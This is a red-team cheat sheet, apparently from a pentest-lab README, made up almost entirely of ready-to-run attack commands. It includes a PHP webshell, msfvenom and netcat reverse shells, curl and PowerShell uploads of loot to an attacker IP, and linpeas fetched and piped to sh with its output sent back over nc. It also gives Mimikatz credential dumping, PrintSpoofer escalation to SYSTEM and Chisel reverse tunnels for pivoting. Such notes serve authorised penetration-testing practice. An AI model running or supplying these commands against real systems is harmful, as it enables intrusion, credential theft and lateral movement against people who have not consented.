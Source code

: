 # Red Team Cheat Sheet

# Web

https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

Commonly Used Dictionaries

```
# web/common.txt - 4743 Lines
https://raw.githubusercontent.com/voidexec/sec/main/web/common.txt

# web/big.txt - 20476 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/big.txt

# web/directory-list-2.3-small.txt - 87664 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-small.txt

# web/directory-list-2.3-medium.txt - 220559 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-medium.txt

# web/directory-list-2.3-big.txt - 1273832 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-big.txt
```

HTTP Server for Upload and Download

```bash
# Download
https://raw.githubusercontent.com/voidexec/sec/main/web/httpserver.py

# Start Server
python3 httpserver.py (default port 80)
python3 httpserver.py -p 8000
```

Upload and Download with Curl

```bash
# Upload file with curl
curl -F 'file=@/home/ubuntu/Desktop/linpeas.out' http://192.168.45.145/

# Download file with curl
curl -O http://192.168.45.145/linpeas.sh
```

Upload and Download with PowerShell

```powershell
# Upload with PowerShell
Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $fs = [System.IO.File]::OpenRead("C:\Users\Public\winpeas.out"); $content = New-Object System.Net.Http.MultipartFormDataContent; $fileContent = New-Object System.Net.Http.StreamContent($fs); $fileContent.Headers.ContentDisposition = New-Object System.Net.Http.Headers.ContentDispositionHeaderValue("form-data"); $fileContent.Headers.ContentDisposition.Name = '"file"'; $fileContent.Headers.ContentDisposition.FileName = '"test.out"'; $content.Add($fileContent); $client.PostAsync("http://192.168.45.145/", $content).Wait(); $client.Dispose()

# Download with PowerShell
iwr -uri "http://192.168.45.145/mimikatz.exe" -outfile "C:\Users\Public\mimikatz.exe"
```

# Reverse Shell

Reverse Shell Generator https://www.revshells.com/

```bash
# PHP One-liner webshell
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

```powershell
# Windows Stageless
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.199 LPORT=9002 -f exe -o reverse.exe
```

# Windows

Quick Commands

```powershell
# Run as another user (Launch new window)
runas /user:backupadmin cmd
# Search for Flag
Get-ChildItem -Path C:\Users -Include local.txt,proof.txt,user.txt,root.txt,flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

PrintSpoofer (Abusing `SeImpersonatePrivilege`)

https://github.com/itm4n/PrintSpoofer

```powershell
https://github.com/itm4n/PrintSpoofer/releases
# Usage 1 - Spawning cmd interactive as system
PrintSpoofer64.exe -i -c cmd
# Usage 2 - Launching reverse shell as system
PrintSpoofer64.exe -c "C:\Users\Public\nc64.exe 192.168.45.145 9001 -e powershell"
```

NC

https://github.com/int0x33/nc.exe/

```powershell
https://github.com/int0x33/nc.exe/
# nc64.exe
https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe
# Reverse shell
nc64.exe 192.168.45.145 9001 -e powershell
```

Mimikatz

https://github.com/ParrotSec/mimikatz

```powershell
https://raw.githubusercontent.com/ParrotSec/mimikatz/refs/heads/master/x64/mimikatz.exe
# Usage
privilege::debug
sekurlsa::logonpasswords full
```

# Linux

Linpeas

```powershell
https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # attacker
curl http://192.168.45.145/linpeas.sh | sh | nc 192.168.45.145 9002 # victim
```

# Services

FTP

```bash
# Download all the files
ftp 192.168.119.2
mget *
```

# Tunneling

## Chisel

Download https://github.com/jpillora/chisel/releases

Run on attacker machine, chisel listens on port 10000

```bash
chisel server -p 10000 --reverse
```

Dynamic Port Forwarding

```powershell
# On victim machine, connect to chisel server and opens a SOCKS tunnel on port 5000
# So that attacker can access any network/service that victim machine can access
chisel client 192.168.45.145:10000 R:5000:socks

# Configure proxychain.conf to use the SOCKS tunnel
socks5 127.0.0.1 5000

proxychains -f proxychain.conf -q impacket-psexec 10.10.78.142 ...
```

Individual port forwarding

```powershell
# A HTTP server is running on attacker machine on port 80
# On victim machine, connect to chisel server and forward attacker machine port 80 to 127.0.0.1 port 10080
# Other compromised machines can reach victim machine on port 10080 which accesses attacker machine port 80.

chisel client 192.168.45.145:10000 10080:127.0.0.1:80/tcp
```

Reverse individual port forwarding

```powershell
# A mysql service on victim machine is listening on 127.0.0.1
# On victim machine, connect to chisel server and forward 127.0.0.1:3306 to attacker machine port 13306
# Attacker can target mysql service on attacker machine port 13306

chisel client 192.168.45.145:10000 R:13306:127.0.0.1:3306/tcp
```
